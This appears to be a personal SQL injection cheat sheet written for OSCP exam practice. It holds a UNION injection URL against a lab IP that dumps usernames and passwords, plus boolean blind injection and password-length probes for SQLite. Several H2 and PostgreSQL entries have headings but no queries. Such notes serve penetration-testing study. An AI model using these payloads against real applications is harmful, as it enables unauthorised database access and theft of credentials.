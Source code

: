 
##### worked for OSCP exercise:
```sql
http://192.168.215.52/debug.php?id=1 union select username, flag, time, password, 5 from users
```

```sql
sqlite_schema.type
```
	‘table’, ‘index’, ‘view’, or ‘trigger’  

```sql
sqlite_schema.name
```
	Holds name of the object  

```sql
sqlite_schema.sql
```
	Stores SQL text that describes the object (CREATE statement)  
  
```sql
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
```
	Blind-Based Auth Bypass using Boolean-Based SQLi  
		CAST() - Convert value to a type.  
		X'54' - Hex representation of ‘T’. x'54' for ‘t’  

```sql
admin' AND length((SELECT password from users where username='admin'))==#-- -
```
	Check length of password  

#### H2  
```sql
schema()
```
	DB metadata  

```sql
h2version()
```
	Shows db version  

-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table  
  
#### PostgreSQL  
-- DB metadata  
-- Shows db version  
-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table
